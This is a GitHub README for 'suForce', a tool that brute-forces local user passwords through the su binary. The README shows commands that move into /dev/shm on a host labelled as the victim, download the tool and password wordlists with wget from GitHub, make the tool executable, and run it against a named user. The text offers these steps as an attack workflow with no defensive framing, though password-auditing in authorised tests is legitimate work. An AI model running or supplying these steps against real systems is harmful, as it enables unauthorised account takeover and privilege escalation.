 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/screenshot.png)

- <kbd>Download suForce</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce"
user@vitim:~$ chmod +x suForce
```

- <kbd>Download Wordlist (Optional)</kbd>

```cmd
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce -u <USER> -w <WORDLIST>
```

---
